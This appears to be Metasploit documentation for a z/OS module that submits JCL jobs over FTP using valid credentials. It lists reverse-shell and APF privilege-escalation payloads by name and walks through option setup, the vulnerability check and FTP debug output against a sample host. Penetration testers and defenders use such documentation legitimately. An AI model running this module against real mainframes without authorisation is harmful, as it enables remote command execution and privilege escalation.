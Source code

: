 z/OS JCL authorized FTP-base command execution - hints & tips

In order to use this exploit, you must have valid credentials on the target z/OS system.  The credentials must have access to upload files via FTP.  If in doubt, use the check function of the exploit.

## Vulnerable Application

This exploit was tested on the ftp daemons for z/OS version 1.13 / 2.1

## Payloads

If the exploit works, any JCL the user has rights to submit can be submitted.

See cmd type payloads under mainframe with jcl in the payload name, e.g.:

```
msf exploit(ftp_jcl_creds) > show payloads

Compatible Payloads
===================

   Name                             Disclosure Date  Rank    Description
   ----                             ---------------  ----    -----------
   cmd/mainframe/apf_privesc_jcl                     normal  JCL to escalate privilages via APF LIB
   cmd/mainframe/generic_jcl                         normal  Generic JCL Test for Mainframe Exploits
   cmd/mainframe/reverse_shell_jcl                   normal  Z/OS (MVS) Command Shell, Reverse TCP
```

## Verification Steps

A successful check of the exploit will look like this:

```
msf exploit(ftp_jcl_creds) > set FTPUSER ftptest
FTPUSER => ftptest
msf exploit(ftp_jcl_creds) > set FTPPASS password
FTPPASS => password
msf exploit(ftp_jcl_creds) > set RHOST 10.10.10.1
RHOST => 10.10.10.1
msf exploit(ftp_jcl_creds) > info

       Name: FTP JCL Execution
     Module: exploit/mainframe/ftp/ftp_jcl_creds
   Platform: Mainframe
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Normal
  Disclosed: 2013-05-12

Available targets:
  Id  Name
  --  ----
  0   auto

Basic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  FTPPASS  password         no        The password for the specified username
  FTPUSER  ftptest          no        The username to authenticate as
  RHOST    10.10.10.1     yes       The target address
  RPORT    21               yes       The target port
  SLEEP    5                no        Time to wait before checking if job has completed.

Payload information:

Description:
  Submit JCL to z/OS via FTP and SITE FILE=JES. This exploit requires
  valid credentials on the target system

msf exploit(ftp_jcl_creds) > check

[+] 10.10.10.1:21 - Successfully connected to FTP server.
[*] 10.10.10.1:21 - Found IBM z/OS Banner and JES commands accepted
[+] The target is vulnerable.
msf exploit(ftp_jcl_creds) >
```


## Debugging

If the exploit or check is not working, turn on the VERBOSE and FTPDEBUG settings of the exploit and run.
The output should look similar to the below, on a vulnerable system.

```
msf exploit(ftp_jcl_creds) > set FTPDEBUG true
FTPDEBUG => true
msf exploit(ftp_jcl_creds) > set VERBOSE true
VERBOSE => true
msf exploit(ftp_jcl_creds) > check

[*] 10.10.10.1:21 - Connecting to FTP server 10.10.10.1:21...
[*] 10.10.10.1:21 - FTP recv: "220-FTPD1 IBM FTP CS V2R1 at ZOS.EXAMPLE.COM, 16:52:31 on 2016-04-27.\r\n220 Connection will close if idle for more than 5 minutes.\r\n"
[*] 10.10.10.1:21 - Connected to target FTP server.
[*] 10.10.10.1:21 - Authenticating as ftptest with password password...
[*] 10.10.10.1:21 - FTP send: "USER ftptest\r\n"
[*] 10.10.10.1:21 - FTP recv: "331 Send password please.\r\n"
[*] 10.10.10.1:21 - Sending password...
[*] 10.10.10.1:21 - FTP send: "PASS password\r\n"
[*] 10.10.10.1:21 - FTP recv: "230 FTPTEST is logged on.  Working directory is \"FTPTEST.\".\r\n"
[+] 10.10.10.1:21 - Successfully connected to FTP server.
[*] 10.10.10.1:21 - FTP send: "site file=jes\r\n"
[*] 10.10.10.1:21 - FTP recv: "200 SITE command was accepted\r\n"
[*] 10.10.10.1:21 - Found IBM z/OS Banner and JES commands accepted
[+] The target is vulnerable.
msf exploit(ftp_jcl_creds) >
```

## Notes

The job run will leave a joblog for the credentials used.   
